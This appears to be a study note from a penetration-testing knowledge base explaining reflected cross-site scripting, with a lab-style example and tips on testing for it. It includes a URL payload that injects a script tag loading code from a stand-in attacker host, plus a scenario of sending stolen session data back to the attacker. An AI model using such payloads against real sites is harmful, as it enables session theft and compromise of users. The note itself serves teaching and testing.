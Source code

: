 ```yaml
---
title: Reflected XSS
---
```


_Reflected_ [XSS](/knowledge/OffSec/pentesting/XSS.md) happens when user-supplied data in an HTTP request is included in the webpage source without any validation, e.g.

A website where if you enter incorrect input, an error message is displayed. The content of the error message gets taken from the `error` parameter in the query string.

```
https://website.thm/?error=Invalid input Detected
```

If the application doesn't check the contents of the error parameters, we could insert malicious code:

```
https://website.thm/?error=<script src="https://attacker.thm/evil.js'></script>
```

This would get rendered as

```html
<div class-"alert alert-danger">
	<p>
		<script src="https://attacker.thm/evil.js"></script>
	</p>
</div>
```

## Example scenario

1. Attacker sends a link with malicious [payload](/knowledge/OffSec/glossary/payload.md) to a victim
2. Victim clicks the link and is taken to a vulnerable site
3. Link containing attacker's script is executed on website
4. The gathered data (e.g. stolen session) is sent back to the attacker

The attacker could send links or embed them into an `iframe` to execute code on the victim browser, potentially revealing sensitive information.

## How to test for Reflected XSS

Manually test every possible point of entry, including:

- Parameters in the URL Query String
- URL File Path
- Sometimes HTTP Headers (although unlikely exploitable in practice)

Once you've found some data which is being reflected in the web application, you'll then need to confirm that you can successfully run your JavaScript payload; your payload will be dependent on where in the application your code is reflected.
